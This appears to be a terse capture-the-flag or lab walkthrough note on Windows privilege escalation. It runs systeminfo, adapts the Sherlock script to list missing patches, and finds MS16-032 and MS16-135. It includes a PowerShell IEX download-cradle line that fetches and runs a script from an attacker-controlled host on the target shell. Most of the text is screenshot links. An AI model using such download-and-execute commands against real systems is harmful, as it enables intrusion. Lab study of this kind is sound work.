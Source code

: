    systeminfo 

*gets all the info on the box to include the hotfixes*

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123638486_image.png)

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123610860_image.png)

*2012 R2 Standard*
Boot times

## use/edit Sherlock to enumerate KBs

copy Sherlock to directory

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123762188_image.png)

Sherlock Github Link: https://github.com/rasta-mouse/Sherlock

Grep for functions within sherlock:

    grep -i function Sherlock.ps1

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123812432_image.png)

*we are going to want to edit the script to “Find-AllVulns” and add line to bottom.*

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557123885173_image.png)

*save.*

Target InvokedShell Download Sherlock:

    IEX(New-Object Net.Webclient).downloadString('http://10.10.14.17:8000/Sherlock.ps1')

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557124020093_image.png)

(returns)

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557124061009_image.png)

*MS16-032 : Appears Vulnerable*
*MS16-135 : Appears Vulnerable*

*if you were to search all the KBs on the target system you would see it was last patched in 2016.*

## google “Vulnerable” exploits
search for exploits:

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557124198808_image.png)

*first result happens to be metasploit.*

search “MS16-032 powershell”

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557126828793_image.png)
